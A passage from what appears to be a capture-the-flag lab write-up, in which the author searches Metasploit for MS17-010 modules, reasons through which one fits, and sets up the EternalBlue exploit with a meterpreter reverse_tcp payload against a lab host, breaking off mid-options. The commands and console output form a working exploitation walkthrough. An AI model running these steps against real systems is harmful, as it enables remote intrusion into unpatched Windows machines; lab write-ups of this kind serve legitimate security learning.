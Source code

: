 ### Metasploit

The easiest way to pull this off is with Metasploit. I’ll start it with `msfconsole`, and then search for `MS17-010`:

```

msf6 > search ms17-010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description        
   -  ----                                           ---------------  ----     -----  -----------        
   0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   4  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

Interact with a module by name or index. For example info 5, use 5 or use exploit/windows/smb/smb_doublepulsar_rce

```

`4` is a scanner, and `5` is using a backdoor that must already be on the system, so they are out. `1` is specifically for Win8, which is not this system. `3` is auxiliary, though it says command execution, so I don’t want to rule it out, but I’ll put it last. That leaves `0` and `2`.

I’ll try `0`:

```

msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >

```

I’ll set the target and my local IP, and the rest of the options look good:

```

msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.10.14.14
lhost => 10.10.14.14
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.10.40      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
```
